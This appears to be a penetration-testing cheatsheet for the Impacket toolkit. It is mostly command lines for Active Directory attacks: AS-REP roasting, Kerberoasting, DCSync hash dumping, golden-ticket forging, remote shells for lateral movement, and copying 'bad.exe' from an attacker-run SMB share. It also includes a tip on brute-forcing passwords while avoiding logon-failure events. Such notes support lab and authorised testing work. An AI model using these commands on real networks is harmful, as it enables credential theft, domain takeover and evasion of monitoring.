 # Impacket 

WARNING impacket does not handle NTFS well - [Ippsec Blackfield HTB](https://www.youtube.com/watch?v=IfCysW0Od8w)

From [Impacket Github](https://github.com/SecureAuthCorp/impacket)
*"Impacket is a collection of Python classes for working with network protocols."*
## What protocols are featured?
-   Ethernet, Linux "Cooked" capture.
-   IP, TCP, UDP, ICMP, IGMP, ARP.
-   IPv4 and IPv6 Support.
-   NMB and SMB1, SMB2 and SMB3 (high-level implementations).
-   MSRPC version 5, over different transports: TCP, SMB/TCP, SMB/NetBIOS and HTTP.
-   Plain, NTLM and Kerberos authentications, using password/hashes/tickets/keys.
-   Portions/full implementation of the following MSRPC interfaces: EPM, DTYPES, LSAD, LSAT, NRPC, RRP, SAMR, SRVS, WKST, SCMR, BKRP, DHCPM, EVEN6, MGMT, SASEC, TSCH, DCOM, WMI, OXABREF, NSPI, OXNSPI.
-   Portions of TDS (MSSQL) and LDAP protocol implementations.

Impacket is an awesome suite of scripts written in python that are incorpated into tools like [[Crackmapexec-Cheatsheet]]. It is very useful suite of tools for [[Active-Directory-Enumeration]], [[Footholding-Active-Directory]], [[Attacking-Kerberos]], [[Active-Directory-Lateral-Movement]] and general [[Active-Directory-Privilege-Escalation]].

Haak9 Technical tips
```bash
# All the Impacket scripts support Kerberos authentication as well:
# -k -no-pass
# must specify host as FQDN and user as realm/user
       
# MISC
# - NETLOGON is inefficient (SMB, rpcclient)
# - RDP is slow
# - LDAP binds are faster but still result in event 4625

# Ask for password
kinit user

# Events ID
# - Failing Kerberos pre-authentication DOES NOT trigger a Logon failure event (4625):
# - Have to manually specify event logging for Kerberos (which is in a different location)
# - If you're only logging on traditional “Logon failures”, you'd miss this.
# - Now failures will be logged as event 4771.
# - So Kerberos pre-auth is a faster and potentially stealthier way to bf password.
```

## dccomexec.py 
Useful for [[Active-Directory-Lateral-Movement]].  A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. Currently supports MMC20.Application, ShellWindows and ShellBrowserWindow objects.
```bash
dccomexec.py $domain/$username:$password@$IP <command>
```
## dpapi.py
Password Encryption tool on Windows

## GetNPUsers.py
For users that do not require Kerberos preauthentiation: 
'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). 
Output is compatible with JtR:[[John-The-Ripper-Cheatsheet]] use `-format hashcat` for  hashcat:[[Hashcat-Cheatsheet]] 

```bash
GetNPUSers.py  -dc-ip $IP -request '$domain/' 
GetNPUSers.py  -dc-ip $IP -request '$domain/' -format hashcat
```
This example will attempt to list and get TGTs for those users that have the property:
```bash
# Get TGT for a user
→ GetNPUsers.py $domain/$user -no-pass
# Get a list of users with UF_DONT_REQUIRE_PREAUTH set
→ GetNPUsers.py $domain/$user:password or GetNPUsers.py $domain/$user
# Request TGTs for all users
→ GetNPUsers.py $domain/$user:password -request or GetNPUsers.py $domain/$user
# Request TGTs for users in a file
→ GetNPUsers.py $domain/ -no-pass -usersfile users.txt
```

## GetTGT.py
Given a password, hash or aesKey, this script will request a TGT and save it as ccache.
```bash
getTGT.py -hashes lm:nt domain.com/user
```

## GetST.py
Given a password, hash, aesKey or TGT in ccache, this script will request a Service Ticket and save it as ccache. If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate`.
switch to request the ticket on behalf another user.
```bash
getST.py -hashes $lm:$nt -spn $spn/$spn-dc $domain$/$user
```

## GetUserSPNs.py
This example will try to find and fetch Service Principal Names that are associated with normal user accounts. Output is compatible with JtR and HashCat.
```bash
GetUserSPNs.py -dc-ip $dc-ip $spn.info/$notanadmin
```

## mssqlclient.py

```bash
mssqlclient.py -port $PORT $domain/$user@$IP -windows-auth
```

## psexec.py
Similiar to [[Sysinternals-Psexec]] like functionality example using [RemComSvc](https://github.com/kavika13/RemCom). Runs as nt system - wmiexec.py runs as Administrator.
```bash

psexec.py $domain/$username:$password@$IP <command>
```

## raiseChild.py
This script implements a child-domain to forest privilege escalation by (ab)using the concept of Golden Tickets and ExtraSids. [[Attacking-Kerberos]] 
```bash
python raiseChild.py childDomain.net/$adminuser
python raiseChild.py childDomain.net/$adminuser:mypwd
python raiseChild.py -hashes LMHASH:NTHASH childDomain.net/$adminuser
```
This will perform the attack and then psexec against target-exec as Enterprise Admin
```bash
python raiseChild.py -target-exec targetHost childDomainn.net/$adminuser
```
This will save the final goldenTicket generated in the ccache target file
```bash
python raiseChild.py -w ccache childDomain.net/$adminuser
```

## secretsdump.py

Exploit DCSync Privileges
```bash
secretsdump.py -dc-ip $IP $domain/$user@$ip
```

## smbexec.py
A similar to `psexec.py` without using [RemComSvc](https://github.com/kavika13/RemCom). Instantiates a local smbserver to then receive the output of commands.
```bash
smbexec.py $domain/$username:$password@$IP <command>
```
This is useful in the situation where the target machine does NOT have a writeable share available.

## smbserver.py
Host a Python implementation of an SMB server. Allows to quickly set up shares and user accounts
```bash
smbserver.py $SHARENAME /path/to/your/local/share -smb2support
smbserver.py $SHARENAME /path/to/your/local/share --username $user --password 
$password
```
[IppsecRocks](https://ippsec.rocks/?#), start the smbserver your current directory
```bash
impacket-smbserver scriptserver $(pwd) -smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

```powershell
copy \\$ip\$Sharename\bad.exe
# Move into Share
cd $Share:
```

## ticketer.py
This script will create Golden/Silver tickets from scratch or based on a template (legally requested from the KDC).
```bash
ticketer.py -nthash <krbtgt/service nthash> -domain-sid <your domain SID> -domain <your domain FQDN> baduser
```

## wmiexec.py
A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.
```bash
wmiexece.py $domain/$username:$password@$IP <command>
```

## References
[IppsecRocks](https://ippsec.rocks/?#)
[Haax9](https://cheatsheet.haax.fr/windows-systems/exploitation/remote_execution_techniques/)
[RemComSvc](https://github.com/kavika13/RemCom)